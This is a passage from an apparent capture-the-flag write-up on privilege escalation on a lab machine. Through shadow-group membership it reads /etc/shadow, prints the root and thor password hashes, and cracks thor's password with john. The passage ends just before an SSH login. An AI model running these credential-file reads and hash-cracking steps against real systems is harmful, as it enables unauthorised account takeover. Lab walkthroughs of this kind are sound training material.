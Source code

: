 <figure><img src="../../../.gitbook/assets/image (3147).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Shadow Group --> Thor Creds

We are part of the `shadow` group, meaning we can read `/etc/shadow`:

{% code overflow="wrap" %}
```
$ cat /etc/shadow
root:$6$XRJJB9j7GYzWvjBy$yZEsOS3cam1DG.eI26bW1TERw5SV7b3RVZQHZB7UFzKNyPR6PPUFfxzclKsiGUT8.WoL7vQ4hhNmekav68kwN1:19150:0:99999:7:::
thor:$6$l2ThCEsvmrzmkKIA$FWtAb1SsYFqAXA96Ze4uGTHtPV9HNi7ShAgoTet1gx.HvkEFePp.Bk/uBeuxpCMz/X3jXWbGavj11po9H/FzP.:19150:0:99999:7:::
```
{% endcode %}

We can try to crack the hashes alone using `john` for these users. The hash for `thor` can be cracked while the one for `root` cannot.&#x20;

```
$ john --show hashes                                     
?:valkyrie

1 password hash cracked, 1 left
```

We can then `ssh` in as `thor`:
